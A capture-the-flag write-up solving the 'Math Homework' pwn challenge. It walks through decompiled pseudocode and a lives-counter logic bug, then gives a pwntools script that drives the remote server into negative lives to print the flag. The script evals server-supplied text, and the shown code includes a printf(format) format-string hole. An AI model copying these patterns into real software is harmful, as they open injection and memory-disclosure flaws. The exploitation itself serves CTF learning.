 # Pwn 200 - Math Homework

We are given a nc server, ```nc 40.76.33.15 55777```, and a 64 bit binary.

Here is the pseudocode:

```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  const char *v4; // rdi
  const char **v5; // [rsp+0h] [rbp-30h]
  char v6; // [rsp+1Fh] [rbp-11h]
  signed int i; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+24h] [rbp-Ch]
  char *format; // [rsp+28h] [rbp-8h]

  v5 = argv;
  v6 = 0;
  v8 = 3;
  v3 = time(0LL);
  srand(v3);
  v4 = "I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...";
  puts("I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...");
  while ( 1 )
  {
    for ( i = 0; i <= 25; ++i )
    {
      format = (char *)generateExpression(v4);
      printf("%d. \n", (unsigned int)i, v5);
      printf(format);
      if ( (unsigned __int8)validateExpression(format) ^ 1 )
        printf("That was wrong! Lives left: %d", (unsigned int)--v8);
      else
        v6 = 1;
      checkState(v8, i == 25);
      putchar(10);
      v4 = format;
      free(format);
    }
    v4 = "If only there was a way I could get these homeworks to stop...";
    puts("If only there was a way I could get these homeworks to stop...");
    if ( v6 != 1 )
      end("If only there was a way I could get these homeworks to stop...");
    v6 = 0;
  }
}

signed __int64 __fastcall checkState(int a1, char a2)
{
  if ( a2 )
    return 2LL;
  if ( a1 )
    return 0LL;
  puts("\nArgh! I'm never going to finish at this rate!");
  exit(0);
  return 0LL;
}
```

First, we run the binary and see what it does:

```
alex@WINDOWS-0A3VRFK:/mnt/c/Users/alex/Desktop/CTF$ ./mathHomework
I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...
0.
8+0=8

1.
5+5=10

2.
5+1=
```

So it generates some math expressions and we have to provide the answer.

You can reverse this binary more, but I'll just skip to the vulnerability. The bug is in checkState. The program uses checkState in the following way:

The first argument is our lives, and the second argument is the question number, or loop counter. Essentially, checkState checks if we run out of lives or not, if we do, then the program exits.

However, if it's the last question, the checkState returns automatically without checking our lives. Basically what we can do with this is that if our lives decrement to 0 on the last question, then the program doesn't exit. Now, becuase checkState only checks if our lives is exactly 0, we can now decrement our lives to a negative number, which will pass the checkState lives check.

Now the flag is printed from the function end:

```
void __noreturn end()
{
  puts("\nEh, I can just make it up on the final.");
  system("cat flag.txt");
  exit(0);
}
```

To reach end, all we have to do is not get a single question correct. Since our lives is not negative and it only decrements, we can just get all the questions wrong and receive the flag. My python program implementing this is shown below:

```python
from pwn import *

r = remote("40.76.33.15", 55777)
for i in range(23):
	r.recvuntil(str(i) + ".")
	r.recvline()
	tosolve = r.recvuntil("=").strip("=")
	ans = eval(tosolve)
	r.sendline(str(ans))

for i in range(29):
	r.sendline("9999")

r.interactive()
```

```
[x] Opening connection to 40.76.33.15 on port 55777
[x] Opening connection to 40.76.33.15 on port 55777: Trying 40.76.33.15
[+] Opening connection to 40.76.33.15 on port 55777: Done
[*] Switching to interactive mode

23. 
1*1=That was wrong! Lives left: 2
24. 
9|5=That was wrong! Lives left: 1
25. 
6+5=That was wrong! Lives left: 0
If only there was a way I could get these homeworks to stop...
0. 
7/9=That was wrong! Lives left: -1
1. 
5-4=That was wrong! Lives left: -2
2. 
5^8=That was wrong! Lives left: -3
3. 
7*9=That was wrong! Lives left: -4
4. 
9&6=That was wrong! Lives left: -5
5. 
0+1=That was wrong! Lives left: -6
6. 
0/1=That was wrong! Lives left: -7
7. 
8/5=That was wrong! Lives left: -8
8. 
2+2=That was wrong! Lives left: -9
9. 
7+1=That was wrong! Lives left: -10
10. 
4|2=That was wrong! Lives left: -11
11. 
5/6=That was wrong! Lives left: -12
12. 
1|4=That was wrong! Lives left: -13
13. 
9/1=That was wrong! Lives left: -14
14. 
0-5=That was wrong! Lives left: -15
15. 
9-0=That was wrong! Lives left: -16
16. 
0/3=That was wrong! Lives left: -17
17. 
3|6=That was wrong! Lives left: -18
18. 
8*1=That was wrong! Lives left: -19
19. 
3-2=That was wrong! Lives left: -20
20. 
6^0=That was wrong! Lives left: -21
21. 
8+6=That was wrong! Lives left: -22
22. 
5^9=That was wrong! Lives left: -23
23. 
9*9=That was wrong! Lives left: -24
24. 
3/1=That was wrong! Lives left: -25
25. 
8^3=That was wrong! Lives left: -26
If only there was a way I could get these homeworks to stop...

Eh, I can just make it up on the final.
b0ctf{stillbetterthanwebassign}
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to 40.76.33.15 port 55777
```

## Flag
### b0ctf{stillbetterthanwebassign}
